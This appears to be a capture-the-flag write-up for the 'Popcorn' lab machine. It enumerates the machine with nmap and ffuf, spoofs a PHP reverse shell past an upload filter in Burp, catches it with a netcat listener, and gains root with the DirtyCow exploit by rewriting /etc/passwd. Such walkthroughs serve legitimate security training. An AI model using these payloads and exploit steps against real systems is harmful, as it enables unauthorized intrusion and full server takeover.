








Target: 10.10.10.6

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.6

Nmap scan report for 10.10.10.6
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.10.6/FUZZ

index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
test                    [Status: 200, Size: 47130, Words: 2474, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

checking 10.10.10.6



checking /test



checking /torrent


registering an account



testing upload



### Findings:Looking for attack vectors

Bypass upload denylisting using Burpsuite to upload a php reverse shell.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

upload success -> editting this torrent



intercepting in burp (upload php file)



intercepting in burp (upload jpeg file)



spoofing in burp (send to repeater) (add jpeg in filename, change mime-type, add jpeg magic bytes before php script)



opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file by clicking the 'Image File Not Found'

```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@popcorn:/$ cd /home

www-data@popcorn:/home$ ls -la

total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Jun  3 08:38 ..
drwxr-xr-x  3 george george 4096 Oct 26  2020 george

www-data@popcorn:/home$ cd george

www-data@popcorn:/home/george$ ls -la

total 868
drwxr-xr-x 3 george george   4096 Oct 26  2020 .
drwxr-xr-x 3 root   root     4096 Mar 17  2017 ..
lrwxrwxrwx 1 george george      9 Oct 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 george george    220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 george george   3180 Mar 17  2017 .bashrc
drwxr-xr-x 2 george george   4096 Mar 17  2017 .cache
-rw------- 1 root   root     1571 Mar 17  2017 .mysql_history
-rw------- 1 root   root       19 May  5  2017 .nano_history
-rw-r--r-- 1 george george    675 Mar 17  2017 .profile
-rw-r--r-- 1 george george      0 Mar 17  2017 .sudo_as_admin_successful
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Jun  3 08:38 user.txt

www-data@popcorn:/home/george$ cd .cache

www-data@popcorn:/home/george/.cache$ ls

motd.legal-displayed
```

```
cat user.txt

<redacted>
```

## Priv Escalations:

enumerating with linpeas
```
════════════════════════════════════╣ System Information ╠════════════════════════════════════
[+] Operative system                                                                                               
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                    
Linux version 2.6.31-14-generic-pae (buildd@rothera) (gcc version 4.4.1 (Ubuntu 4.4.1-4ubuntu8) ) #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009  
```

exploiting outdated linux version using dirtycow
```
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt

www-data@popcorn:/dev/shm$ ./dirty.c

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b78a1000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

```
www-data@popcorn:/dev/shm$ su - firefart

firefart@popcorn:/dev/shm# id

uid=0(firefart) gid=0(root) groups=0(root)
```

```
firefart@popcorn:/dev/shm# cat /root/root.txt

<redacted>
```
